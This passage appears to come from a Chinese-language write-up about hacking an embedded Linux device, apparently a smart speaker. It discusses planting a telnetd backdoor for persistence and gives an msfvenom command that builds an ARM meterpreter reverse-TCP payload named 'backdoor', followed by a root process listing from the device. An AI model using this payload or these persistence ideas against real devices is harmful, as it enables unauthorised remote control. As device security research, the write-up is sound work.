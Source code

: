 不过很遗憾，我并没有在/data目录下找到可以在系统启动过程中影响代码执行的文件，没找到类似自启动脚本什么的，所以无法将开启telnetd等后门的代码塞到开机启动的流程中。因此也就无法通过单次攻击，达到重启后的权限驻留。可能对flash上的squashfs固件进行修改是唯一的出路，不过我并没有尝试过。另外，可以使用meterpreter拉文件下来：

```
➜  msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=192.168.40.119 LPORT=6666 -f elf -o backdoor
```

### 业务进程

所有进程如下：

```c
/ # ps
  PID USER       VSZ STAT COMMAND
    1 root      1328 S    /sbin/procd
    2 root         0 SW   [kthreadd]
    3 root         0 SW   [ksoftirqd/0]
    4 root         0 SW   [kworker/0:0]
    5 root         0 SW<  [kworker/0:0H]
    6 root         0 SW   [kworker/u4:0]
    7 root         0 SW   [rcu_sched]
    8 root         0 SW   [rcu_bh]
    9 root         0 SW   [migration/0]
   10 root         0 SW<  [lru-add-drain]
   11 root         0 SW   [cpuhp/0]
   12 root         0 SW   [cpuhp/1]
   13 root         0 SW   [migration/1]
   14 root         0 SW   [ksoftirqd/1]
   15 root         0 SW   [kworker/1:0]
   16 root         0 SW<  [kworker/1:0H]
   17 root         0 SW   [kdevtmpfs]
   18 root         0 SW   [kworker/u4:1]
  165 root         0 SW   [kworker/u4:2]
  228 root         0 SW   [oom_reaper]
  229 root         0 SW<  [writeback]
  231 root         0 SW<  [crypto]
  232 root         0 SW<  [bioset]
  234 root         0 SW<  [kblockd]
  273 root         0 SW   [kworker/0:1]
  275 root         0 SW<  [cfg80211]
  319 root         0 SW   [kswapd0]
  320 root         0 SW<  [vmstat]
  451 root         0 SW<  [bioset]
  452 root         0 SW   [nand]
  453 root         0 SW   [nftld]
  465 root         0 SW   [nand_rcd]
  473 root         0 SW   [kworker/1:1]
  483 root         0 SW<  [btfwwork]
  484 root         0 SW   [cfinteractive]
  485 root         0 SW   [autohotplug]
  486 root         0 SW   [irq/165-sunxi-m]
  648 root         0 SW<  [ipv6_addrconf]
  666 root         0 SW<  [kworker/1:1H]
  668 root         0 SW<  [kworker/0:1H]
  860 root       972 S    /sbin/ubusd
  866 root       672 S    /sbin/askfirst /bin/login
 1249 root         0 SW<  [krfcommd]
 1330 root      1312 S    /usr/sbin/dbus-daemon --system
 1382 root      1412 S    /sbin/netifd
 1401 root         0 SW   [jbd2/nand0p9-8]
 1402 root         0 SW<  [ext4-rsv-conver]
 1409 root      2600 S<   /usr/bin/quickplayer
 1418 root      1040 S<   /bin/ledserver
 1460 root      1044 S    /usr/sbin/crond -f -c /etc/crontabs -l 5
```